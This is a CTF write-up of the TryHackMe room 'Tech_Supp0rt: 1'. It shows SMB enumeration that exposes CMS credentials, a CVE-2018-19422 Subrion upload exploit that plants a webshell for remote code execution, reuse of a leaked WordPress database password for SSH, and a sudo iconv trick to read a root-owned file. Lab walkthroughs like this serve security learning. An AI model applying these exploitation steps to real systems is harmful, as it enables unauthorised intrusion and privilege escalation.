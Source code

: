 ```yaml
---
layout: post
author: L0
---
```


# THM-Tech_Supp0rt-1

![image](/images/Pasted image 20230820221846.png)

[TryHackMe - Tech_Supp0rt: 1](https://tryhackme.com/room/techsupp0rt1)

## Enumeration
### nmap
```shell
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- **Port 22:** SSH service
- **Port 80:** Apache web server
- **Port 139 & 445:** SMB service
### SMB Enumeration with enum4linux

running *enum4linux* returned some useful information.

```shell
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        websvr          Disk
        IPC$            IPC       IPC Service (TechSupport server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP

[+] Attempting to map shares on 10.10.15.183

//10.10.15.183/print$   Mapping: DENIED Listing: N/A Writing: N/A
//10.10.15.183/websvrs   Mapping: OK Listing: OK Writing: N/A

```

- `//10.10.15.183/websvrs` provides directory listing.

```shell
[+] Enumerating users using SID S-1-5-21-2071169391-1069193170-3284189824 and logon username '', password ''

S-1-5-21-2071169391-1069193170-3284189824-501 TECHSUPPORT\nobody (Local User)
S-1-5-21-2071169391-1069193170-3284189824-513 TECHSUPPORT\None (Domain Group)

[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\scamsite (Local User)

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''

S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

```

- Multiple user identifications were discovered.

```shell
$ smbclient //10.10.15.183/websvr
Password for [WORKGROUP\j0j0pupp3]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 03:17:38 2021
  ..                                  D        0  Sat May 29 03:03:47 2021
  enter.txt                           N      273  Sat May 29 03:17:38 2021

                8460484 blocks of size 1024. 5678712 blocks available
```

```shell
$ cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->

```

From the SMB share, a file named `enter.txt` was obtained, which contained goals and credentials for a CMS called Subrion. However, a direct route to `http://techsupport/subrion` was unavailable.
### Reverse Shell

```shell
$ ffuf -w `fzf-wordlist` -u http://techsupport.thm/subrion/FUZZ -fc 301,302

.htpasswd               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 2736ms]
.hta                    [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 3937ms]
favicon.ico             [Status: 200, Size: 1150, Words: 10, Lines: 4, Duration: 50ms]
.htaccess               [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 4749ms]
robots.txt              [Status: 200, Size: 142, Words: 9, Lines: 8, Duration: 40ms]
sitemap.xml             [Status: 200, Size: 628, Words: 6, Lines: 4, Duration: 40ms]
updates                 [Status: 403, Size: 280, Words: 20, Lines: 10, Duration: 37ms]

```

i did a directory fuzzing and found access to the *robots.txt*

![image](/images/Pasted image 20230820233330.png)

and from there we got a working path to the login page.

![image](/images/Pasted image 20230820233411.png)

After reversing an encoded password:

![image](/images/Pasted image 20230821084250.png)

in the dashboard i found nothing special and i searched for an exploit for the specific version.

![image](/images/Pasted image 20230820234045.png)

i found one and executed it with this command.

```shell
$ python3 subrion_exp.py -u "http://techsupport.thm/subrion/panel/" -l "admin" -p "Scam2021"
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422

[+] Trying to connect to: http://techsupport.thm/subrion/panel/
[+] Success!
[+] Got CSRF token: WqbKikR2wG83lqldtjG4OanA6CY52P7AtKaSuxju
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: ufzltrelacqmobd

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://techsupport.thm/subrion/panel/uploads/ufzltrelacqmobd.phar

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

This resulted in shell access.
## Privilege Escalation
i found some credentials in the wordpress directory.

```shell
$ cat ../../wordpress/wp-config.php
...
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );
...
```

and with those i was able to connect with ssh as the user *scamsite* (we got this one from enum4linux or /etc/passwd)

```shell
$ ssh scamsite@techsupport
scamsite@techsupport's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$ ls
websvr
scamsite@TechSupport:~$ id
uid=1000(scamsite) gid=1000(scamsite) groups=1000(scamsite),113(sambashare)
```

Checking for elevated privileges revealed that the `iconv` binary could be executed with sudo rights:

```shell
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```

`iconv` is a binary that converts one encoding to another.
so reading */root/root.txt* was easy.

```shell
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 /root/root.txt
851**********************************90b  -
```

and i got the flag.

[L0]